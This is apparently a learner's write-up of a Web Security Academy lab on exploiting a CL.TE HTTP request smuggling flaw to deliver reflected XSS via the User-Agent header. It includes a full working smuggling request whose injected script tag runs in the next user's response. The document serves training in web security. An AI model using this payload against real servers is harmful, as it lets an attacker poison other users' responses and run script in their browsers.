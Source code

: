 # Practitioner Lab 134: Exploiting HTTP request smuggling to deliver reflected XSS

---

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the `User-Agent` header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`.

![Untitled](Practitioner%20Lab%20134%20Exploiting%20HTTP%20request%20smugg%20bcc7b8d9e4ff41e7bc13370bb5cd60c5/Untitled.png)

This shows me that it is a CLTE  

the front end looks at the Content length while the backend looks at the Transfer Encoding.

The first thing I did was redirect to the product page where the user agent is reflected. 

To test the smuggling I just made sure that I would be redirected to the page. I then added xss.

By looking at the context of the xss I managed the escape the outside tags and have xss

![Untitled](Practitioner%20Lab%20134%20Exploiting%20HTTP%20request%20smugg%20bcc7b8d9e4ff41e7bc13370bb5cd60c5/Untitled%201.png)

```
POST / HTTP/1.1
Host: 0a3f007e04e5edcd80de67a600f200a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 281
Transfer-Encoding: chunked

0

GET /post?postId=7 HTTP/1.1
Host: 0a3f007e04e5edcd80de67a600f200a1.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36"><script>alert(1)</script>
Content-Length: 30

x=
```

![Untitled](Practitioner%20Lab%20134%20Exploiting%20HTTP%20request%20smugg%20bcc7b8d9e4ff41e7bc13370bb5cd60c5/Untitled%202.png)

Now I will send it to the user and This should solve the lab.

![Untitled](Practitioner%20Lab%20134%20Exploiting%20HTTP%20request%20smugg%20bcc7b8d9e4ff41e7bc13370bb5cd60c5/Untitled%203.png)
